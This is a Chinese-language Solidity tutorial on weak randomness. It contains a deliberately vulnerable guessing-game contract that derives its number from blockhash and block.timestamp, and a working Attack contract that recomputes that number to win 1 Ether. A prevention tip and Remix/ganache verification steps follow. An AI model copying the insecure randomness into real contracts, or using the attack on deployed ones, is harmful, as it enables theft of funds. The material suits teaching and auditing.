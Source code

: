 # Source of Randomness
## 漏洞
blockhash和block.timestamp不是可靠的随机性来源。


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
注意：无法在Remix中使用blockhash，因此请使用ganache-cli

npm i -g ganache-cli
ganache-cli
在Remix中切换环境到Web3提供程序
*/

/*
GuessTheRandomNumber是一个游戏，如果你能猜出从区块哈希和时间戳生成的伪随机数，你就能赢得1 Ether。

乍一看，似乎不可能猜出正确的数字。
但是让我们看看赢得游戏有多么容易。

1. Alice部署GuessTheRandomNumber并放入1 Ether
2. Eve部署Attack
3. Eve调用Attack.attack()并赢得1 Ether

发生了什么？
Attack通过简单地复制计算随机数的代码，计算出了正确的答案。
*/

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // 检查余额的辅助函数
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
不要使用blockhash和block.timestamp作为随机性来源。

## remix验证
1.因为无法在Remix中使用blockhash，因此切换至ganache-cli
![71-1.jpg](img/71-1.jpg)
2.部署GuessTheRandomNumber并放入1 Ether
![71-2.jpg](img/71-2.jpg)
3.部署Attack合约，调用attack()函数，输入GuessTheRandomNumber合约地址，获取1 ETH 验证
![71-3.jpg](img/71-3.jpg)